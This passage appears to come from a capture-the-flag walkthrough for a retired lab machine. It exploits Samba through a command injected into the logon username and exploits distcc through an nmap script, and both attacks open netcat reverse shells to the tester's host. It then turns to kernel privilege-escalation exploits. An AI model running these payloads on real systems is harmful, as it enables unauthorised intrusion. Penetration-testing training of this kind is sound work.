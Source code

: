 ```text
logon "/=`nohup nc -nv 10.10.14.6 4444 -e /bin/sh`"
```

The shell connects back to our attack machine and we have root! In this scenario, we didn’t need to escalate privileges.

![](https://miro.medium.com/max/719/1*DdvA5iSrtgHA7NTjHO527A.png)

Grab the user flag.

![](https://miro.medium.com/max/519/1*W-JJhSQNW8QMzh2M1XoUbA.png)

Grab the root flag.

![](https://miro.medium.com/max/572/1*EFS66PmJse9YpGTSus10wA.png)

## Exploitation \#2: Distcc <a id="714d"></a>

In the previous section, we saw that this service is vulnerable to CVE 2004–2687 and there’s an nmap script that can be used to exploit this vulnerability and run arbitrary commands on the target machine.

First, start a listener on the attack machine.

```text
nc -nlvp 4444
```

Then, use the nmap script to send a reverse shell back to the attack machine.

```text
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.6 4444 -e /bin/bash'"
```

![](https://miro.medium.com/max/722/1*XGycXseoW7pDQLJnfN6PwA.png)

The shell connects back to our attack machine and we have a non privileged shell!

![](https://miro.medium.com/max/692/1*a6yMG05f7RV-LU2091HSBQ.png)

We’ll need to escalate privileges. Google the OS version — Linux 2.6.24 to see if it is vulnerable to any exploits. I tried [CVE 2016–5195](https://www.exploit-db.com/exploits/40839) and [CVE 2008–0600](https://www.exploit-db.com/exploits/5093), but they didn’t work.

Let’s try [CVE 2009–1185](https://www.exploit-db.com/exploits/8572). Download the exploit from searchsploit.

```text
searchsploit -m 8572.c
```

Start up a server on your attack machine.

```text
python -m SimpleHTTPServer 9005
```
